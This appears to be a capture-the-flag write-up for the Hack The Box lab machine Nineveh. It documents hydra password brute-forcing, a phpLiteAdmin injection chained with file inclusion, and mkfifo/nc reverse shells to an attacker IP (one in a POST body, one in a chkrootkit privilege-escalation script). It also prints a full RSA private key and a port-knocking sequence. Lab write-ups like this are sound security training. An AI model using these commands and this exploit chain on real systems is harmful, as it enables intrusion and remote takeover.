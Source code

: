 # NINEVEH

admin@nineveh.htb
add in /etc/hosts nineveh.htb

```
dirb http://nineveh.htb/ /usr/share/wordlists/dirb/big.txt
dirb https://nineveh.htb/ /usr/share/wordlists/dirb/big.txt
```

found 
- http://nineveh.htb/department/login.php
- https://nineveh.htb/db/

on http the comment says 
<!-- @admin! MySQL is been installed.. please fix the login page! ~amrois -->
so we have a user and a hint 

when invalid user says 
- invalid username

when valid username (like admin)
- Invalid Password!

so we can brute force
feeling bored to use tools lets create my own little brute forcer
as we know we ca say if user exist or not so we know that admin is a valid user lets brute force him 
```
python myforcer.py /usr/share/wordlists/rockyou.txt
Valid ! 1q2w3e4r5t
```
on url 
```
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt
```
(Notes button) we have a note 
```
- Have you fixed the login page yet! hardcoded username and password is really bad idea!
- check your serect folder to get in! figure it out! this is your challenge
Improve the db interface.
~amrois
```
if we play a little with the url 
```
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.php
```
gives us a weird error message:
```
Warning:  include(files/ninevehNotes.php): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31
Warning:  include(): Failed opening 'files/ninevehNotes.php' for inclusion (include_path='.:/usr/share/php') in /var/www/html/department/manage.php on line 31
```

well cant find anything atm lets see https/db
try to bruteforce with hydra this time 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64
```
we have this password
[443][http-post-form] host: nineveh.htb   login: admin   password: password123

there is a phpLiteAdmin v1.9  lets google if we can find some exploits
```
https://www.exploit-db.com/exploits/24044
```

- create a database named "ninevehNotes.txt.exploit.php" 
- also create a table in this database named wathever with just one field, this is where we are gonna exploit 
- in the default value put the code 

from now we should be able to see this in the server somewhere 

important note we can see the path of the database file 
```
Path to database: /var/tmp/ninevehNotes.txt.exploit.php
```

after a lot of trying 
we can see the result of my nphpinfo in 
```
http://nineveh.htb/department/manage.php?notes=/var/tmp/ninevehNotes.txt.exploit.php
```
now we know that php is working in here lets get a reverse shell
after a lot of trying finally got it (reverse shells / webshells doesnt work idk why)
```
POST /department/manage.php?notes=/var/tmp/ninevehNotes.txt.exploit.php HTTP/1.1
Host: nineveh.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=kf3kpuucka8icfirv0lc1a2bb6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

cmd=rm+-f+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.28+4444+>/tmp/f
```

now we have a shell i remember that the first note was saying go check the secure note 
there is an image here 
if i strings it i can find a rsa private key is this for a ssh connexion ? 

we check if ssh is open as we cant see it from outside 
```
netstat -tulpn | grep LISTEN
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

it is open so we get the file 
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
```
put it in /tmp/id_rsa 
chmod 600 id_rsa 
and we can 
```
ssh -i test amrois@nineveh.htb
```
and we are amrois 
from here we can see from linpeas 
```
/usr/bin/crontab 
*/10 * * * * /usr/sbin/report-reset.sh
```
```
amrois@nineveh:/tmp$ ls -la /usr/sbin/report-reset.sh
-rwxr-x--- 1 amrois amrois 34 Jul  2  2017 /usr/sbin/report-reset.sh
```
```
amrois@nineveh:/tmp$ cat /usr/sbin/report-reset.sh
#!/bin/bash

rm -rf /report/*.txt
```
i guess we can inject something here
cant sudo -l we dont have password 

checking linpeas i can see 
```
╔══════════╣ Analyzing Knockd Files (limit 70)
```
after googeling i can see this is "port knocking" so it appears that i can open ports by knocking at some other ports lets see how it work
```
amrois@nineveh:~$ cat /etc/default/knockd 
################################################
#
# knockd's default file, for generic sys config
#
################################################

# control if we start knockd at init or not
# 1 = start
# anything else = don't start
#
# PLEASE EDIT /etc/knockd.conf BEFORE ENABLING
START_KNOCKD=1

# command line options
KNOCKD_OPTS="-i ens160"
amrois@nineveh:~$ cat /etc/knockd.conf 
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

```

here we can see that if we "knock" at port 571, 290, 911 we can open port 22 and therefore ssh 
```
for i in 571 290 911; do nmap -Pn -p $i --host-timeout 201 --max-retries 0 10.10.10.43; done 
```
```
nmap -p 22 10.10.10.43 
Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
```
 
damn thats cool !!

so here we have a ssh shell lets go back to the /usr/sbin/report-reset.sh

a lot a search finnally found that the files in /report/ are made by chkrootkit found a local privilege escalation exploit 
```
https://www.exploit-db.com/exploits/33899
```

so create a /tmp/update file 
```
#!/bin/bash

rm -f /tmp/shell;mkfifo /tmp/shell;cat /tmp/shell|/bin/sh -i 2>&1|nc 10.10.14.28 4242 >/tmp/shell
```
and make it executable 
```
chmod +x /tmp/update
```

we wait with a listenner 
and we are root

